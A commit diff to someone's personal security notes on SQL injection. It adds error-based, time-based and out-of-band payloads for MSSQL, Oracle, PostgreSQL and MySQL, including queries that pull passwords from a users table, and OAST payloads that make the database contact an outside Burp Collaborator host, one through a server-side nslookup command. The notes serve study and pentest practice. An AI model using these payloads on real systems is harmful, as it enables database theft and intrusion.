

Before and after one commit to B310M0R/notes, a Markdown page: sqli.md, the part around the change. Shown: that part at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
time delay sqli, oast

````diff
--- a/sqli.md
+++ b/sqli.md
@@ -152,5 +152,53 @@ For different DBs:
 * Postgres: `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
 * MySQL: `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`
 
+#### Visible error-base SQLo
+Sometimes DB throws some additional info in error like `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
+To exploit this, we can use CAST:
+`CAST((SELECT example_column FROM example_table) AS int)`
+Example:
+```
+' AND 1=CAST((SELECT password FROM users LIMIT 1) as int) --
+```
+This will throw an error:
+`ERROR: invalid input syntax for type integer: "jec5qqzsfktcvtv2bewn"`
+And from ehre we get our password
+
+#### Time-Based SQLi
+For MSSQL:
+```
+'; IF (1=2) WAITFOR DELAY '0:0:10'--
+'; IF (1=1) WAITFOR DELAY '0:0:10'--     This will trigger delay
+```
+Example: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`
+
+* Oracle: ` dbms_pipe.receive_message(('a'),10)`
+```
+SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
+```
+* PostgreSQL: `SELECT pg_sleep(10)`
+```
+SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
+' || pg_sleep(10)
+'%3B SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END --           %3B stays for ;
+'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
+```
+* MySQL: `SELECT SLEEP(10)`
+```
+SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
+```
 ### Second-order SQLi
 SQLi which is stored inside server/database and executed later with another HTTP request. Also called stored SQLi
+
+### OAST SQLi
+We can trigger DB to perform DNS lookup
+It's possible to sue Burp collaborator for such exploits
+* MSSQL: `'; exec master..xp_dirtree '//<url>/a'`
+* Oracle `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`. This vuln is patched, but it's possible to exploit it on unpatched systems
+* Oracle: `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`. Works on patched systems, but needs priv esc
+* Postgres: `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
+* MySQL: `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` .WOrks on Windows only
+* MySQL: (maybe it's part of previous payload, idk) `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`
+
+
+bkz3x3qa7tqcxi6d6wkksjd25tbkzbn0.oastify.com
````
